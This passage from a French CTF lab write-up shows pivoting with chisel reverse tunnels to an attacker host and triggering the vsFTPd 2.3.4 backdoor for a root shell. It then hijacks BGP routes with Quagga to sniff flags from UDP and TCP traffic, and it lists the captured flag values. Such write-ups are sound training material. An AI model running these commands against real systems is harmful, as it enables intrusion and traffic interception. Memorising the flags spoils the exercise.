./xab ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[10:05:01] uploaded 512.00KiB in 0.87 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xac
./xac ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[10:05:07] uploaded 512.00KiB in 0.91 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xad
./xad ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[10:05:10] uploaded 512.00KiB in 0.88 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xae
./xae ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[10:05:12] uploaded 512.00KiB in 0.88 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xaf
./xaf ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[10:05:15] uploaded 512.00KiB in 1.01 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xag
./xag ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 329.7/329.7 KB • ? • 0:00:00
[10:05:18] uploaded 329.74KiB in 0.97 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$                                  

(remote) www-data@app.ctx.ctf:/tmp$ cat xa* > chisel.tar.gz
(remote) www-data@app.ctx.ctf:/tmp$ tar -xzf chisel.tar.gz 
(remote) www-data@app.ctx.ctf:/tmp$ chmod +x chisel
```

On transfert chisel.  

```bash
tim@kali:~/Bureau/tryhackme/write-up/chisel server -p 8888 --host 10.9.228.66 --reverse -v
2021/11/14 10:36:27 server: Reverse tunnelling enabled
```

On lance le serveur

```bash
./chisel client 10.9.228.66:8888 R:8889:172.16.1.128:21 &
```

On lance chisel pour redigérer le port 21.  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp 127.0.0.1 8889
Connected to 127.0.0.1.
220 (vsFTPd 2.3.4)
```

On se connecte au servive FTP et on voit que l'on est à la version 2.3.4, qui contient un backdoor.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp 127.0.0.1 8889
Connected to 127.0.0.1.
220 (vsFTPd 2.3.4)
Name (127.0.0.1:tim): user:)
331 Please specify the password.
Password: pass

```

On active le backdoor.  


```bash
(remote) www-data@app.ctx.ctf:/tmp$ ./nmap 172.16.1.128 -p-

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-11-14 17:02 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for hackback_router1_1.hackback_r_1_ext (172.16.1.128)
Host is up (0.00011s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
179/tcp  open  bgp
2601/tcp open  zebra
2605/tcp open  bgpd
6200/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.48 seconds

```

On voit que le backdoor passe par le port 6200.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ chisel server -p 8999 --host 10.9.228.66 --reverse -v
(remote) www-data@app.ctx.ctf:/tmp$ ./chisel client http://10.9.228.66:8999 R:6200:172.16.1.128:6200  &
```

On redirige le port 6200.  

**What is the flag in the /root/ directory of router1? {FLAG:Router1:XXX}**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ncat 127.0.0.1 8999
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
cd root
ls
flag.txt
vsftpd
cat flag.txt
{FLAG:Router1:c877f00ce2b886446395150589166dcd}
```

On se connecte sur le backdoor. 
Dans le répertoire root on trouve un fichier flag.txt.  
On lit le fichier et on trouve le flag qui est : {FLAG:Router1:c877f00ce2b886446395150589166dcd}.  

**What flag is transmitted from flag_server to flag_client over UDP? {FLAG:UDP:XXX}**
**What flag is transmitted from flag_server to flag_client over TCP? {FLAG:TCP:XXX}**

```bash
ping -c 2 router2
PING router2 (172.16.12.102): 56 data bytes
64 bytes from 172.16.12.102: seq=0 ttl=64 time=0.062 ms
64 bytes from 172.16.12.102: seq=1 ttl=64 time=0.066 ms

--- router2 ping statistics ---


ping -c 2 router3
PING router3 (172.16.31.103): 56 data bytes
64 bytes from 172.16.31.103: seq=0 ttl=64 time=0.061 ms
64 bytes from 172.16.31.103: seq=1 ttl=64 time=0.068 ms

--- router3 ping statistics ---

```

Avec la commande ping on trouve les 2 adresses ip des routeur2 et routeur3.  

``` bash
vtysh

Hello, this is Quagga (version 1.2.4).
Copyright 1996-2005 Kunihiro Ishiguro, et al.
router1.ctx.ctf# config terminal
config terminal

router1.ctx.ctf(config)# router bgp 60001 
router bgp 60001 

router1.ctx.ctf(config-router)# network 172.16.2.0/25
network 172.16.2.0/25
router1.ctx.ctf(config-router)# network 172.16.3.0/25
network 172.16.3.0/25

router1.ctx.ctf(config-router)# end
end


tcpdump -i eth0 -A
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
---

18:01:17.284324 IP 172.16.3.10.52733 > 172.16.2.10.4444: UDP, length 44
E..H.Z@.>......
...
...\.4]z{FLAG:UDP:3bb271d020df6cbe599a46d20e9fcb3c}
---
18:03:24.411932 IP 172.16.3.10.5555 > 172.16.2.10.44500: Flags [FP.], seq 2:45, ack 1, win 227, options [nop,nop,TS val 1354252 ecr 1354251], length 43
E.._..@.>......
...
.....FM..h......]......
........FLAG:TCP:8fb04648d6b2bd40af6581942fcf483e}
```

On configure le routage bgp, puis on écoute tous les paquets.
Dans les paquets ont trouvent les flags suivants : {FLAG:UDP:3bb271d020df6cbe599a46d20e9fcb3c} et {FLAG:TCP:8fb04648d6b2bd40af6581942fcf483e}  

